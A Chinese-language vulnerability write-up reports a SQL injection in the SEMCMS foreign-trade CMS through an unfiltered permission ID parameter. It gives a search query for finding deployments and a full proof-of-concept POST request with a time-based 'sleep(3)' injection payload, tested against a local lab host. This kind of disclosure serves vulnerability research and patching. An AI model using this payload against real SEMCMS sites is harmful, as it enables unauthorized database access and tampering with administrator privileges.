 SEMCMS外贸网站管理系统存在前台sql注入漏洞

 

漏洞概述：

SEMCMS是一个支持多种语言的外贸网站内容管理系统(CMS)，由于权限分配功能处对权限ID参数输入没有过滤，导致存在sql注入漏洞。

官网地址：http://www.sem-cms.com

 

漏洞复现：

app="SEMCMS"

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

 

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

后台地址路径是部署成功随机生成的，本地复现需要搭建漏洞环境，最新php版本源码地址：官网下载地址

http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

 

ID权限参数拼接sql语句无过滤

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

（uid参数是用户的ID，本次复现修改管理员的权限，完成测试后修改数据库进行权限恢复,管理员权限参数为74,76,77,87,88,116,123,170,75,78,79,80,81,82,83,84,89,100,181）

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

构造请求poc

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

管理员权限被修改为77

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image014.jpg)

拼接sql语句进行注入

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image016.jpg)

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image018.jpg)

 ```
 POST /MtHDbu_Admin/SEMCMS_User.php?CF=fenpei HTTP/1.1
 Host: 192.168.96.1
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 Accept-Encoding: gzip, deflate
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 28
 Origin: http://192.168.96.1
 Connection: close
 Upgrade-Insecure-Requests: 1
 
 ID[]=77'+and+sleep(3)#&uid=1
 ```



 

Sqlmap验证：

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image020.jpg)

测试完成修改数据库管理员权限

74,76,77,87,88,116,123,170,75,78,79,80,81,82,83,84,89,100,181

![img](file:///C:/Users/20922/AppData/Local/Temp/msohtmlclip1/01/clip_image022.jpg)

测试完成（如不想变动管理员权限，复现可创建一个测试用户）

 